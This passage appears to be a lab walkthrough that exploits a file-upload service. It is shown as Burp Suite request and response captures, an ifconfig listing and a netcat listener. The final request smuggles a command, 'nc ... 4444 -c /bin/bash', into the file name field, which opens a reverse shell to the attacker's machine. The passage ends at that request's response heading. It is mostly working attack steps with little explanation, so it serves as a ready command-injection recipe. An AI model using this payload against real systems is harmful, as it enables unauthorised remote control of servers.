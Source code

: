 `burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /upload HTTP/1.1
Host: 192.231.94.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://beta.file-backup.com:5000/
Content-Type: application/json
Content-Length: 35
Origin: http://beta.file-backup.com:5000
Connection: close

{"file":"test.txt","data":"test\n"} 📌
```
`HTTP Response`:
```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 39
Access-Control-Allow-Origin: http://beta.file-backup.com:5000
Vary: Origin
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Wed, 27 Nov 2024 15:45:34 GMT

{"success": "File saved successfully!"}
```

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.231.94.2 📌 netmask 255.255.255.0  broadcast 192.231.94.255
        ether 02:42:c0:e7:5e:02  txqueuelen 0  (Ethernet)
        RX packets 133  bytes 568545 (555.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 116  bytes 12188 (11.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`nc -lnvp 4444`:
```
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /upload HTTP/1.1
Host: 192.231.94.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://beta.file-backup.com:5000/
Content-Type: application/json
Content-Length: 35
Origin: http://beta.file-backup.com:5000
Connection: close

{"file":"test.txt; nc 192.231.94.2 4444 -c '/bin/bash'","data":"test\n"} 📌
```
`HTTP Response`: